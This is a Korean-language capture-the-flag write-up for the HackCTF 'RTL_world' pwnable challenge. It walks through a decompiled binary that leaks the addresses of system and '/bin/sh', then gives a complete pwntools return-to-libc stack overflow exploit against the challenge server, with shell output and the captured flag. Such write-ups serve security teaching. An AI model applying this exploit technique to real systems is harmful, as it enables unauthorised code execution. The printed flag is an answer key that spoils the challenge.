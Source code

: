 #RTL_world

---

복잡해보이지만 생각보다 간단한 문제이다. 우선 `main()`의 코드를 보자.

<pre>
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  int v4; // [esp+0h] [ebp-A0h]
  int v5; // [esp+10h] [ebp-90h]
  char buf; // [esp+14h] [ebp-8Ch]
  void *v7; // [esp+94h] [ebp-Ch]
  void *handle; // [esp+98h] [ebp-8h]
  void *s1; // [esp+9Ch] [ebp-4h]

  setvbuf(stdout, 0, 2, 0);
  handle = dlopen("/lib/i386-linux-gnu/libc.so.6", 1);
  v7 = dlsym(handle, "system");
  dlclose(handle);
  for ( s1 = v7; strcmp((const char *)s1, "/bin/sh"); s1 = (char *)s1 + 1 )
    ;
  puts("\n\nNPC [Village Presient] : ");
  puts("Binary Boss made our village fall into disuse...");
  puts("If you Have System Armor && Shell Sword.");
  puts("You can kill the Binary Boss...");
  puts("Help me Pwnable Hero... :(\n");
  printf("Your Gold : %d\n", gold);
  while ( 1 )
  {
    Menu(v4);
    printf(">>> ");
    __isoc99_scanf("%d", &v5);
    switch ( v5 )
    {
      case 1:
        system("clear");
        puts("[Binary Boss]\n");
        puts("Arch:     i386-32-little");
        puts("RELRO:    Partial RELRO");
        puts("Stack:    No canary found");
        puts("NX:       NX enabled");
        puts("PIE:      No PIE (0x8048000)");
        puts("ASLR:  Enable");
        printf("Binary Boss live in %p\n", handle);
        puts("Binart Boss HP is 140 + Armor + 4\n");
        continue;
      case 2:
        v4 = gold;
        Get_Money();
        continue;
      case 3:
        if ( gold <= 1999 )
          goto LABEL_10;
        gold -= 1999;
        printf("System Armor : %p\n", v7);
        break;
      case 4:
        if ( gold <= 2999 )
        {
LABEL_10:
          puts("You don't have gold... :(");
        }
        else
        {
          gold -= 2999;
          printf("Shell Sword : %p\n", s1);
        }
        break;
      case 5:
        printf("[Attack] > ");
        read(0, &buf, 0x400u);
        return 0;
      case 6:
        puts("Your Not Hero... Bye...");
        exit(0);
        return result;
      default:
        continue;
    }
  }
}
</pre>

여기서 일정 이상의 gold를 모으면 system의 주소와 "/bin/sh"문자열의 주소를 얻을 수 있다.

때문에 이 정보를 이용해서 system함수를 호출해서 "/bin/sh" 문자열을 인자로 주면 된다.

메뉴창에서 5번을 누르면 buf에 1024bytes만큼의 입력을 할 수 있다. 이때, buf의 위치는 ebp-0x8c이기 때문에 payload를 다음과 같이 짠다면 ret주소를 "/bin/sh"인자와 함께 조작할 수 있다.

**[dummy 144bytes]+[system address]+[dummy 4bytes]+["/bin/sh" address]**

다음과 같이 익스코드를 짜보았다.

<pre>
from pwn import*

#p=process('./rtl_world')
p=remote('ctf.j0n9hyun.xyz',3010)

def gold():
        p.recvuntil('>>> ')
        p.sendline('2')
        p.recvuntil('>>> ')
        p.sendline('3')


for i in range(1,10):
        gold()

p.recvuntil('>>> ')
p.sendline('3')
p.recvuntil('Armor : ')
system_address=int(p.recv(10),16)

p.recvuntil('>>> ')
p.sendline('4')
p.recvuntil('Sword : ')
binsh_address=int(p.recv(10),16)

log.info('system address is '+str(hex(system_address)))

p.recvuntil('>>> ')
p.sendline('5')
p.recvuntil('> ')

payload='A'*144
payload+=p32(system_address)
payload+='A'*4
payload+=p32(binsh_address)

p.sendline(payload)

p.interactive()
</pre>

flag를 얻을 수 있었다.


    root@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/11.RTL_world# python ex.py
    [+] Opening connection to ctf.j0n9hyun.xyz on port 3010: Done
    [*] system address is 0xf7db5da0
    [*] Switching to interactive mode
    $ whoami
    attack
    $ ls
    flag
    main
    $ cat flag
    HackCTF{17_w45_4_6r347_r7l_w0rld}

**flag: HackCTF{17_w45_4_6r347_r7l_w0rld}**
